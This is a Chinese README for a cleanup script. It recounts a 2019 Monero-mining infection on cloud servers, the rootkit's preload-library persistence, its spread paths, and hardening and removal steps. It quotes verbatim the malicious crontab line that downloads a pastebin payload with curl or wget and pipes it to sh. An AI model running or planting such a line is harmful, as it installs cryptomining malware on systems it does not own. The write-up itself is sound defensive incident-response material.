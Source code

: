 ##背景

20190409 晚上阿里云邮件预警提示有服务器不断向其他服务器发送6379，22端口的请求，同时封闭了该服务器的端口，后来阿里云披露出来是门罗币挖矿病毒。 该病毒可以通过免密钥登录的方式无限复制，只要中招服务器有对应的免密钥登录到其他服务器的配置，都会被感染。


##表现


`
[root@dev-us-api ~]# crontab -l
`

*/15 * * * * (curl -fsSL https://pastebin.com/raw/v5XC0BJh||wget -q -O- https://pastebin.com/raw/v5XC0BJh)|sh

crontab中的任务删除过段时间会自动创建（其实后来发现是基于预加载库的拦截，每次执行ls ll 等命令都会刷新这个任务计划，木马会重新写入）
有的服务器top可以看到占用cpu较高的应用有的服务器看不到
ps  看不到对应进程

尝试建立大量的22、6379端口请求


##传播途径：

1. root的免密钥登录（我是这个）
2. 还有一个redis的无密码登录（网上其他有人因为这个中）
3. jenkins 漏洞侵入


##处理流程

我查了很多资料后来找到一个busybox 工具，这个工具可以无依赖的让你使用操作系统常用的命令比如ps ls rm kill netstat 等等。可以用这些命令来查询被隐藏或者你差不到的应用。

1. ##确定请求地址：

 	pastebin.com，所以我在安全组里直接封掉了这个网站的所有请求，或者可以通过本地hosts的方式将这个网址解析为本机等等都可以

2. ##安全加固：

	默认这个病毒是通过22ssh 端口传染，所以ssh服务 的端口不能是默认，需要修改一个其他端口。关闭root登录，修改/etc/ssh/sshd_config 中PermitRootLogin yes 改为no。
	
	redis 尽量不要绑定到0.0.0.0 改为内网ip或者127.0.0.1，同时设置RequirePass 密码


3. ##删除木马

	核心的两个病毒文件（别急着删除，这里需要用busybox 去删除，直接rm 去删除的话，当你执行ls之类的命令，木马会重新被执行）
	
 	/etc/ld.so.preload 
	
 	/usr/local/lib/libpamcd.so
 
	其他病毒文件
		rm -f /etc/cron.d/tomcat
		rm -f /etc/cron.d/root
		rm -f /var/spool/cron/
		rm -f /tmp/ld.so.preload* 	
4. ##清理进程

	这里需要busybox，busybox 安装比较麻烦（而且不同的发行版编译的时候会遇到各种问题），我这里直接把命令放在版本库里了，直接git clone ，执行脚本即可。
	脚本我已经整理好了.
	脚本里面包含我遇到的 kerberods和khugepageds 两个木马进程和我其他服务器中招的kthrotlds，剩下的就是其他人遇到的我也整理进来，其他木马 可以通过busybox ps aux 来查看 ，基本从/tmp 启动的进程都是有问题的，所以可以仔细检查，看脚本的执行流程来删除掉就可以了
	
	最后需要重启（手动）。
#使用方法
	`cd /usr/local/src`

	`git clone https://github.com/unixtommy/virus_clean.git`

	`cd virus_clean`

	`sh virus_clean.sh`

	`重启`


附：比较感谢这个朋友，我主要参考了他的做法，而且他的情况跟我类似，也不完全类似，但是差不多了。

[Linux 挖矿病毒 khugepageds的处理](https://www.wangdb.com/archives/1599.html)
https://www.wangdb.com/archives/1599.html
